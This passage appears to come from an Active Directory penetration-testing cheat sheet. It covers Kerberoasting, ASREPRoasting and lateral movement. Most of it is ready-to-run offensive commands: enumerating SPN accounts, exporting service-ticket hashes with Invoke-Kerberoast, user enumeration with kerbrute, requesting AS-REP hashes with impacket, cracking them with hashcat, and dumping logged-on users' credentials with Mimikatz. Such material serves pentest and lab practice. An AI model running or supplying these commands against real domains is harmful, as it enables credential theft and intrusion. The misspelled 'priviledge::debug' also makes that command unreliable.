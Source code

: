 The service ticket is encrypted through the password hash of the SPN. So, We can request a service ticket from DC, extract and attemp to crack the password of the service account.

**Find all users with an SPN set (likely service accounts)**

```powershell
Get-DomainUser -SPN
```

The **Invoke-Kerberoast.ps1** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

```powershell
Import-Module C:\Windows\Temp\Invoke-Kerberoast.ps1
```

```powershell
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

```powershell
hashcat -m 13100 --force -a 0 hashes.kerberoast rockyou
```

### ASREPRoasting

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

If don't have any domain username, let's enumerate

```bash
./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

Then, use `GetNPUsers` to request ticket

```bash
impacket-GetNPUsers domain.local/svc-admin -no-pass
```

Then, crack the hash

```bash
hashcat -m 18200 -a 0 hash.kerberos passwordlist.txt
```

## Lateral movement

### Mimikatz - Cached Credential

Dump the credentials of all logged-on users:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::logonpasswords" exit
```
